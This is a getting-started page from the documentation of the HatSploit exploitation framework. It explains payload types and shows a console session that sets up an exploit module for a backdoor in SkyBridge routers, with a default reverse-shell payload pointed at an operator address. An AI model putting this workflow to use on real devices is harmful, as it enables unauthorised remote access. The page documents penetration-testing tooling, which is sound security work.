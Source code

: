 ```yaml
---
layout: default
title: HatSploit Payloads
parent: Getting started
nav_order: 6
---
```


After the successful exploitation, *exploit* module should have something to send in order to get a remote shell or any other kind of impact. This is where payloads come in action. HatSploit provides an extensive interface for payload development and supports all kinds of them:

* *Shellcodes* - These payloads are highly architecture dependent due to that they are written in pure assembly. HatSploit enables payload authors to store payloads in assembly code rather then publishing compiled shellcodes.
* *Scripts* - These payloads can be any script, from BASH, Python or PowerShell code to a single command.

All payloads are different and are created for different purposes, however HatSploit has a strict payload system to distinguish them. There are two types of payload:

* *Stager* - Payload that is sent first and the main purpose of which is to read the next (bigger) payload into memory and execute it.
* *Staged* - Payload that can be sent by itself or after the stager. This payload is flexible and can contain multiple ways it can be executed, while *stager* has only one.

## Using payloads

To use a specific payload, you should first select the module that supports payload execution.

Let's take `exploit/linux/skybridge/100_110_code_execution` module that exploits the built-in backdoor in several routers and attempts to gain code execution.

```entysec
[hsf3]> search skybridge

Modules:

    Number    Category    Module                                                    Rank    Name
    0         exploit     exploit/linux/skybridge/100_110_code_execution            high    SkyBridge MB-A100/110 Remote Code Execution
    1         exploit     exploit/linux/skybridge/100_110_credentials_disclosure    high    SkyBridge MB-A100/110 Credentials Disclosure

[hsf3]> use 0
[*] Using default payload linux/armle/shell_reverse_tcp...
[hsf3: SkyBridge MB-A100/110 Remote Code Execution]> options

Module Options (exploit/linux/skybridge/100_110_code_execution):

    Option     Value                            Required    Description
    HOST                                        yes         SkyBridge host.
    LHOST      10.39.23.43                      yes         Local host.
    LPORT      8888                             yes         Local port.
    PAYLOAD    linux/armle/shell_reverse_tcp    yes         Payload to use.
    TIMEOUT    10                               no          Connection timeout.


Payload Options (linux/armle/shell_reverse_tcp):

    Option     Value          Required    Description
    ENCODER                   no          Encoder to use.
    RHOST      10.39.23.43    yes         Remote host.
    RPORT      8888           yes         Remote port.
```

As you can see, we already have a payload preconfigured for us to use on an exploited system. You can invoke `info` command to find more information about the effects of the module.

```entysec
[hsf3: SkyBridge MB-A100/110 Remote Code Execution]> info

    Name: SkyBridge MB-A100/110 Remote Code Execution
  Module: exploit/linux/skybridge/100_110_code_execution
Platform: linux
    Rank: high

Authors:
  Ivan Nikolskiy (enty8080) - module developer

Description:
  SkyBridge MB-A100/110 firmware <= 4.2.0 has an Android Debug Bridge
  service exposed allowing attacker to execute arbitrary commands.
  Sessions generated by this module are weak due to that ADB sometimes
  fails to execute payload in background and when ADB session is
  closed all sessions are closed too. Session will stay alive as long
  as auto-interaction is turned on.

References:
  URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23578
  URL: https://www.seiko-sol.co.jp/products/skybridge/skybridge_download/mb-a100/
  CVE: 2023-23578

Devices:
  SkyBridge MB-A100 - firmware <= 4.2.0
  SkyBridge MB-A110 - firmware <= 4.2.0

Stability:
  Module does not crash target

Reliability:
  Module spawns weak (unstable) session
```

## Developing the payload

If you want to contribute and develop your own payload, you might find this guide useful - [Writing Payloads](/docs/development/writing-payloads)
